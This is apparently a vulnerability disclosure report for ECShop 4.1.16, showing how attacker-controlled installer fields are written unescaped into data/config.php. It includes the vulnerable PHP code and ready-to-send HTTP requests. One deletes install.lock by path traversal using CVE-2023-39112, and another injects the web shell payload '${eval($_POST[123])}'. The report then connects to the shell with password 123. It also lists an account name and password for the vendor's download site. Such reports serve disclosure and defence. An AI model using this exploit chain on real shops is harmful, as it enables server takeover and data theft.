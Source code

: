 # ECShop 4.1.16 Code Execution Vulnerability
## Application Info:
Name: ECShop

Version: 4.1.16

Website: http://www.ecshop.com

Download Link: http://update.shopex.com.cn/version/program/ECShop/download_ecshop_utf8.php

P.S. : You may need to register to download the source code(Here is an account for easy use, the account name is 17200750002, and the password is abc123456). The source folder of this project is the source code of the latest version 4.1.16 on the official website of ecshop.

## Website Development 
Website Environment: Apache 2.4.x + MySQL 5.7.x + PHP 5.6.x

![image](https://github.com/Luci4n555/vul_report/assets/116565145/e63fc0a3-a86f-457b-8554-30fecf9c0f8c)

Website root directory: \source\ecshop

![image](https://github.com/Luci4n555/vul_report/assets/116565145/cd20a79a-78ba-4b63-80fd-8bf63979bae5)

## Vulnerability Position

![image](https://github.com/Luci4n555/vul_report/assets/116565145/80ca12a2-5a96-461c-930a-c3c611066c03)

In the create_config_file() function on line 313 of the \source\ecshop\install\includes\lib_installer.php file
```
function create_config_file($db_host, $db_port, $db_user, $db_pass, $db_name, $prefix, $timezone)
{
    global $err, $_LANG;
    $db_host = construct_db_host($db_host, $db_port);

    $content = '<?' ."php\n";
    $content .= "// database host\n";
    $content .= "\$db_host   = \"$db_host\";\n\n";
    $content .= "// database name\n";
    $content .= "\$db_name   = \"$db_name\";\n\n";
    $content .= "// database username\n";
    $content .= "\$db_user   = \"$db_user\";\n\n";
    $content .= "// database password\n";
    $content .= "\$db_pass   = \"$db_pass\";\n\n";
    $content .= "// table prefix\n";
    $content .= "\$prefix    = \"$prefix\";\n\n";
    $content .= "\$timezone    = \"$timezone\";\n\n";
    $content .= "\$cookie_path    = \"/\";\n\n";
    $content .= "\$cookie_domain    = \"\";\n\n";
    $content .= "\$session = \"1440\";\n\n";
    $content .= "define('EC_CHARSET','".EC_CHARSET."');\n\n";
    $content .= "define('ADMIN_PATH','admin');\n\n";
    $content .= "define('AUTH_KEY', 'this is a key');\n\n";
    $content .= "define('OLD_AUTH_KEY', '');\n\n";
    $content .= "define('API_TIME', '');\n\n";
    $content .= "define('STORE_KEY','".md5(microtime() . mt_rand(0,1000))."');\n\n";
    $content .= '?>';


    $fp = @fopen(ROOT_PATH . 'data/config.php', 'wb+');
    if (!$fp)
    {
        $err->add($_LANG['open_config_file_failed']);
        return false;
    }
    if (!@fwrite($fp, trim($content)))
    {
        $err->add($_LANG['write_config_file_failed']);
        return false;
    }
    @fclose($fp);

    return true;
}
```
We control the variable value of $db_host, $db_port, $db_user, $db_pass, $db_name, $prefix, $timezone by constructing these variable values, and write them into the data/config.php file, resulting in arbitrary code execution.
![image](https://github.com/Luci4n555/vul_report/assets/116565145/cb5e67aa-b088-4743-af5c-07b861e9fea0)

And we can call the vulnerable function create_config_file() in line 228 of the \source\ecshop\install\index.php file.

```
case 'create_config_file' :
    $db_host    = isset($_POST['db_host'])      ?   trim($_POST['db_host']) : '';
    $db_port    = isset($_POST['db_port'])      ?   trim($_POST['db_port']) : '';
    $db_user    = isset($_POST['db_user'])      ?   trim($_POST['db_user']) : '';
    $db_pass    = isset($_POST['db_pass'])      ?   trim($_POST['db_pass']) : '';
    $db_name    = isset($_POST['db_name'])      ?   trim($_POST['db_name']) : '';
    $prefix     = isset($_POST['db_prefix'])    ?   trim($_POST['db_prefix']) : '';
    $timezone   = isset($_POST['timezone'])     ?   trim($_POST['timezone']) : 'Asia/Shanghai';

    $data = array(
        'SHOP_DB_HOST' => $db_host,
        'SHOP_DB_PORT' => $db_port,
        'SHOP_DB_DATABASE' => $db_name,
        'SHOP_DB_USERNAME' => $db_user,
        'SHOP_DB_PASSWORD' => $db_pass,
        'SHOP_DB_PREFIX' => $prefix,
        'SHOP_URL' => 'http://'.$_SERVER['HTTP_HOST'],
        'SHOP_H5' => 'http://'.$_SERVER['HTTP_HOST'].'/h5',
        'TOKEN_SECRET' => md5(time() . mt_rand(0,1000))
        );

    $result = create_config_file($db_host, $db_port, $db_user, $db_pass, $db_name, $prefix,  $timezone);
    $result_api = create_env($data,'appserver');
    $result_h5 = create_env($data,'h5');

    if ($result === false || $result_api === false || $result_h5 ===false)
    {
        echo implode(',', $err->get_all());
    }
    else
    {
        echo 'OK';
    }


    break;
```

## Vulnerability Verification
In order to achieve the purpose of file writing, we need to use CVE-2023-39112 to delete the specified file. The following is the request packet to delete the file, and the administrator cookie needs to be supplemented.
```
POST /admin/database.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

act=remove&file[]=../../data/install.lock
```

![image](https://github.com/Luci4n555/vul_report/assets/116565145/edfd2d8c-059c-4586-a133-d71c8a94cd91)

Then we exploit this vulnerability to write malicious code.
```
POST /install/index.php?step=create_config_file HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Connection: close

db_user=${eval($_POST[123])}
```

![image](https://github.com/Luci4n555/vul_report/assets/116565145/7b102c21-4fe4-4546-9c25-f775cafa3886)

We can see that the file source\ecshop\data\config.php has inserted malicious code.

![image](https://github.com/Luci4n555/vul_report/assets/116565145/05ed5a74-4f70-444b-916e-eab1f030d402)

Finally we use the antSwordPublic tool to connect and test code execution.
The link address is: http://127.0.0.1/data/config.php, the password is 123.

![image](https://github.com/Luci4n555/vul_report/assets/116565145/2dd54abb-0ee7-4167-a0a6-9e0cc3259624)

Successful execution of arbitrary code.
